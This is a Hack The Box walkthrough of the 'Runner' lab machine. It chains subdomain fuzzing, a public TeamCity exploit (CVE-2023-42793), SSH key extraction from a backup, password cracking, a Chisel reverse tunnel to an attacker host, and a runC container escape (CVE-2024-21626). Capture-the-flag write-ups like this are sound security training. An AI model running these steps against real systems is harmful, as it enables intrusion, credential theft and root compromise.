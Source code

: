  HTB: Runner – Writeup / Walkthrough

Difficulty: Medium
Category: Linux / DevOps / Exploitation Chain

Summary

To root the "Runner" box, I chained multiple real-world exploitation techniques:

    🔍 Subdomain enumeration → Discovered teamcity.runner.htb

    ⚙️ CVE-2023-42793 → Gained TeamCity admin access

    🔓 Extracted SSH key (John) & cracked hash (Matthew)

    🧬 Pivoted into Portainer.io via port-forwarding

    ⚔️ CVE-2024-21626 → Container escape → Root shell

🔎 Recon & Subdomain Enumeration

Only ports 22 (SSH), 80 (HTTP), and 8000 (Nagios) were open. Nothing exploitable at first glance.

I used ffuf for subdomain brute-forcing and discovered:

ffuf -H "Host: FUZZ.runner.htb" -u http://runner.htb/ \
     -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt --fw 4

✅ Found: teamcity.runner.htb
📌 Added to /etc/hosts for access.
🔓 Exploiting TeamCity: CVE-2023-42793

Targeting the TeamCity instance with CVE-2023-42793, I used Zyad-Elsayed’s exploit:

python3 exploit.py --url http://teamcity.runner.htb

🎯 Got creds for a new TeamCity admin account → Logged in.
📦 Backup Abuse → SSH Key Extraction

Created a TeamCity backup under Administration > Backup.

📥 Downloaded from the History tab.

Extracted:

    🗝️ SSH private key for john:
    config/projects/AllProjects/pluginData/ssh_keys/id_rsa

    🔐 Password hashes from database_dump/users

Used the key to login as john:

chmod 600 id_rsa
ssh -i id_rsa john@runner.htb

✅ Got user.txt.

Cracked Matthew’s hash with john:

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

🕸️ Port Forwarding via Chisel

Noticed port 9000 using:

ss -tulpn

Set up Chisel reverse tunnel:

    On attacker:

./chisel server -p 4444 --reverse

On target:

    ./chisel client <attacker_ip>:4444 R:9000:127.0.0.1:9000

🖥️ Now accessible: http://127.0.0.1:9000 → Portainer login
🔥 Container Escape: CVE-2024-21626 (runC)

Logged into Portainer using Matthew's credentials.

Spawned a container from teamcity:latest. Set working directory to /proc/self/fd/8 (required for the runC exploit to trigger).

Accessed container console as root, escaped with:

cat ../../../../root/root.txt

💥 Rooted.
🧾 Flags

    user.txt – John via SSH key

    root.txt – Via runC container escape

✅ Takeaways

This machine mimicked a realistic attack chain:

    DevOps misconfigs (TeamCity backup)

    Subdomain brute-force → Entry point

    Chisel tunneling + Container runtime escape

